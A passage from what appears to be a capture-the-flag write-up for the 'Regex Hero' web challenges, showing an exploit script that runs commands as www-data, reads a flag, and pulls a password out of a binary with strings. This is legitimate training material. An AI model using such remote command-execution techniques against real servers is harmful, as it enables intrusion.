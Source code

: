 Now lets test it out.

{% highlight bash %}
$ python exploit.py id
Command Output: 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
{% endhighlight %}

The `flag.txt` is at the root directory, but we do not have permissions to read it. We will need to execute `readflag` which is also in the root directory.

{% highlight bash %}
$ python exploit.py /readflag
Command Output: 
FLAG{7h15_15_7HE_Fl49}
{% endhighlight %}

<br>

## Regex Hero 2 (494 pts)

{% highlight raw %}
The flag seems to be somewhere deeper...
But I cant find it either.
Can you help me?
http://www.websec.pw:9091/
{% endhighlight %}

The source code of the `index.php` was exactly the same, so all I had to do was change all the URLs to the new one. However, `readflag` is now protected with a password.

{% highlight bash %}
$ python exploit.py /readflag
Command Output: 
Wrong Password!
{% endhighlight %}

Lets run `strings` to see if we can find the password.

{% highlight bash %}
$ python exploit.py "strings /readflag"
Command Output:
...
P4S5W0RD
Password requried!
Wrong Password!
/flag.txt
...
{% endhighlight %}

It seems the password might be `P4S5W0RD`? At this point I couldn't use the character "P" because initially I was only using `/etc/motd` to get characters, which happens to not include that letter. Hence, I had to modify my payload to store the contents of `index.php` into a variable and add a special check  for the character "P".
